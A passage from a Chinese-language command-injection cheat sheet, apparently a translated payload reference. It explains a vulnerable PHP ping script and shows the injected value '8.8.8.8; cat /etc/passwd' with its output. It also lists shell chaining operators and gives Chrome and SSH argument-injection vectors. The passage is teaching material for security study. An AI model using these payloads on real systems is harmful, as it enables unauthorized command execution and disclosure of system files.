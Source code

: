 在上面的代码中，PHP脚本使用`system()`函数执行`ping`命令，使用通过`ip` GET参数提供的IP地址或域名。

如果攻击者提供类似`8.8.8.8; cat /etc/passwd`的输入，实际执行的命令将是：`ping -c 4 8.8.8.8; cat /etc/passwd`。

这意味着系统将首先`ping 8.8.8.8`，然后执行`cat /etc/passwd`命令，这将显示`/etc/passwd`文件的内容，可能泄露敏感信息。

### 基本命令

执行命令，然后完成 :p

```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
...
```

### 命令链

在许多命令行界面中，尤其是类Unix系统，有几个字符可用于链接或操作命令。

* `;` (分号)：允许您顺序执行多个命令。
* `&&` (AND)：仅当第一个命令成功（返回零退出状态）时才执行第二个命令。
* `||` (OR)：仅当第一个命令失败（返回非零退出状态）时才执行第二个命令。
* `&` (后台)：在后台执行命令，允许用户继续使用shell。
* `|` (管道)：将第一个命令的输出作为第二个命令的输入。

```powershell
command1; command2   # 执行command1，然后执行command2
command1 && command2 # 仅在command1成功时执行command2
command1 || command2 # 仅在command1失败时执行command2
command1 & command2  # 在后台执行command1
command1 | command2  # 将command1的输出通过管道传递给command2
```

### 参数注入

当您只能向现有命令追加参数时获得命令执行。
使用此网站[Argument Injection Vectors - Sonar](https://sonarsource.github.io/argument-injection-vectors/)查找要注入的参数以获得命令执行。

* Chrome

    ```ps1
    chrome '--gpu-launcher="id>/tmp/foo"'
    ```

* SSH

    ```ps1
    ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
    ```

* psql
